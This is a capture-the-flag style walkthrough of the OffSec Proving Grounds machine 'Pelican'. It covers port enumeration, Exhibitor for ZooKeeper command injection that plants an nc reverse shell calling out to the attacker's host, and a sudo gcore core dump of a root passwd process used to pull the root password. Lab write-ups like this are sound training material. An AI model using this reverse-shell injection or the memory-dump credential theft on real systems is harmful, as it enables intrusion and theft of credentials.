

# Pelican — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Linux

---

## TL;DR

Exhibitor for ZooKeeper RCE → shell as local user `charles` → sudo `gcore` to dump a running `passwd` process → extract root password from core dump → root.

---

## Enumeration

Full port scan reveals quite a few services:

```bash
nmap -sV -p- 192.168.174.98
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 7.9p1 Debian |
| 139 | SMB | Samba smbd |
| 445 | SMB | Samba smbd |
| 631 | IPP | CUPS 2.2 |
| 2181 | Zookeeper | Zookeeper 3.4.6 |
| 2222 | SSH | OpenSSH 7.9p1 Debian |
| 8080 | HTTP | Jetty 1.0 |
| 8081 | HTTP | nginx 1.14.2 |
| 44907 | Java RMI | Java RMI |

That's a lot of attack surface. The most interesting one here is **ZooKeeper on port 2181** and the **Jetty web server on port 8080**.

---

## Exploitation — Exhibitor for ZooKeeper RCE

Visiting `http://192.168.174.98:8080/exhibitor/v1/ui/index.html`, we find the **Exhibitor for ZooKeeper v1.0** management UI. A quick search on Exploit-DB reveals [EDB-48654](https://www.exploit-db.com/exploits/48654) — a known RCE vulnerability.

The exploit is straightforward:

1. Open the Exhibitor Web UI
2. Click on the **Config** tab
3. Flip the **Editing** switch to **ON**
4. In the **"java.env script"** field, inject a reverse shell wrapped in `$()`:

```bash
$(/bin/nc -e /bin/sh 192.168.45.176 6969 &)
```

5. Click **Commit → All At Once → OK**

Start a listener and wait up to a minute:

```bash
nc -lvnp 6969
```

Shell caught — we're in as user `charles`.

---

## Privilege Escalation — Core Dump Password Extraction

Checking sudo permissions:

```bash
sudo -l
```

Charles can run `gcore` with sudo. From [GTFOBins](https://gtfobins.github.io/): `gcore` generates core dumps of running processes, which often contain sensitive information like passwords, cryptographic keys, and open file contents.

Let's look for juicy processes:

```bash
ps -aux
```



There's a process running `/usr/bin/passwd` **as root** (PID 496). This likely has the root password sitting in memory.

Dump it:

```bash
sudo gcore 496
```

Then search through the dump:

```bash
strings core.496
```

And there it is — the root password in plaintext:

```
ClogKingpinInning731
```

Switch to root:

```bash
su root
# Password: ClogKingpinInning731
```

We're root. 🎉

---

## Key Takeaways

- **Exhibitor for ZooKeeper** has a known RCE — if you see it, it's basically a free shell via the config editor
- **`gcore`** with sudo is extremely dangerous — it can dump memory from any process, including those handling passwords
- The `strings` command is your best friend when analyzing core dumps and binary files
- Always check `ps -aux` for interesting processes when you have a core dump capability

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
